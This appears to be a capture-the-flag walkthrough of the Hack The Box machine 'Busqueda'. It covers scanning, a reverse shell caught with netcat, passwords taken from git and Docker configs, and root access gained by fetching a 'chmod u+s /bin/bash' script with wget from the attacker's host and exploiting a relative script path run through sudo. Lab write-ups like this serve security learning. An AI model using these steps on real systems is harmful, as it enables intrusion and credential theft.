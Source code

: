 
We have a webpage open that contains a field to send searches.

```
└──╼ [★]$ nmap -sC -A -T4 -Pn 10.129.151.159
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 20:06 BST
Nmap scan report for 10.129.151.159
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
```

Located at the bottom of the page shows that searcher is running version 2.4.0 and if we look that up we can find a vulnerabilty and a POC.


https://github.com/dhmosfunk/CVE-2023-25690-POC

Input the code into the field and set up your listener.

![image](https://github.com/Rogue-1/HTB/assets/105310322/3a775ef7-e6e8-44e4-b396-aaef44ed2d4f)

We are in and can get the first flag.

```
└──╼ [★]$ nc -lvnp 9999
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
id
Ncat: Connection from 10.129.151.159.
Ncat: Connection from 10.129.151.159:53744.
/bin/sh: 0: can't access tty; job control turned off
$ uid=1000(svc) gid=1000(svc) groups=1000(svc)
$ cat user.txt
e20a5ccbd***********************
*********
```


Checkout the app config and we can find some credentials and another domain. However logging in as the user doesnt reveal much besides another user known as administrator.

```
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```


Using the password with the svc account shows that we can access some stuff with sudo.
```
svc@busqueda:/var/www/app/.git$ sudo -l
sudo -l

[sudo] password for svc: jh1usoih2bkjaspwe92

Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

However we cannot read it so we have to play around with it till we get something back on how to run it.

```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py /tmp
<usr/bin/python3 /opt/scripts/system-checkup.py /tmp
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

```

```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
<python3 /opt/scripts/system-checkup.py full-checkup
[=] Docker conteainers
{
  "/gitea": "running"
}
{
  "/mysql_db": "running"
}

[=] Docker port mappings
{
  "22/tcp": [
    {
      "HostIp": "127.0.0.1",
      "HostPort": "222"
    }
  ],
  "3000/tcp": [
    {
      "HostIp": "127.0.0.1",
      "HostPort": "3000"
    }
  ]
}

[=] Apache webhosts
[+] searcher.htb is up
[+] gitea.searcher.htb is up

[=] PM2 processes
┌─────┬────────┬─────────────┬─────────┬─────────┬──────────┬────────┬──────┬───────────┬──────────┬──────────┬──────────┬──────────┐
│ id  │ name   │ namespace   │ version │ mode    │ pid      │ uptime │ ↺    │ status    │ cpu      │ mem      │ user     │ watching │
├─────┼────────┼─────────────┼─────────┼─────────┼──────────┼────────┼──────┼───────────┼──────────┼──────────┼──────────┼──────────┤
│ 0   │ app    │ default     │ N/A     │ fork    │ 1532     │ 2h     │ 0    │ online    │ 0%       │ 23.7mb   │ svc      │ disabled │
└─────┴────────┴─────────────┴─────────┴─────────┴──────────┴────────┴──────┴───────────┴──────────┴──────────┴──────────┴──────────┘

[+] Done!
```
```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps        
<in/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   6 months ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   6 months ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

After checking out all of the options we can see that docker-inpect will let us put more parameters including containers. Note: Needed to look up documentation on running docker inspect.

```
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
<p.py docker-inspect '{{json .Config}}' 960873171e2e
{"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

```
svc@busqueda:/opt/scripts$ udo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a
<p.py docker-inspect '{{json .Config}}' f84a6b33fb5a
Command 'udo' not found, but can be installed with:
apt install udo
Please ask your administrator.
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a6b33fb5a
<p.py docker-inspect '{{json .Config}}' f84a6b33fb5a
{"Hostname":"f84a6b33fb5a","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"3306/tcp":{},"33060/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF","MYSQL_USER=gitea","MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh","MYSQL_DATABASE=gitea","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","GOSU_VERSION=1.14","MYSQL_MAJOR=8.0","MYSQL_VERSION=8.0.31-1.el8","MYSQL_SHELL_VERSION=8.0.31-1.el8"],"Cmd":["mysqld"],"Image":"mysql:8","Volumes":{"/var/lib/mysql":{}},"WorkingDir":"","Entrypoint":["docker-entrypoint.sh"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"1b3f25a702c351e42b82c1867f5761829ada67262ed4ab55276e50538c54792b","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"db","com.docker.compose.version":"1.29.2"}}
```

The Gitea instance gives us a password (yuiu1hoiu4i5ho1uh) that we can use to login as the admin on the gitea domain.


located in the file system-checkup.py shows our vulnerability that we can execute. The full-checkup.sh is in a relative file path meaning all we have to do is have it execute our own in /dev/shm.

```python
 elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Create a file with your choice of privilege escalation. (Note: Be quick since the files are deleted quickly by the instance)

```sh
└──╼ [★]$ cat full-checkup.sh 
#!/bin/bash

chmod u+s /bin/bash
```
```
svc@busqueda:/dev/shm$ wget http://10.10.14.130:8000/full-checkup.sh
wget http://10.10.14.130:8000/full-checkup.sh
--2023-07-05 21:55:47--  http://10.10.14.130:8000/full-checkup.sh
Connecting to 10.10.14.130:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 185 [text/x-sh]
Saving to: ‘full-checkup.sh’

full-checkup.sh     100%[===================>]     185  --.-KB/s    in 0s      

2023-07-05 21:55:47 (8.94 MB/s) - ‘full-checkup.sh’ saved [185/185]

svc@busqueda:/dev/shm$ chmod 777 full-checkup.sh
chmod 777 full-checkup.sh
```


Now run the file
```
svc@busqueda:/dev/shm$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
<python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!

```

If everything worked properly then you will have the root flag!
```
root@busqueda:~# cat root.txt
cat root.txt
bcb7d41bc***********************
```
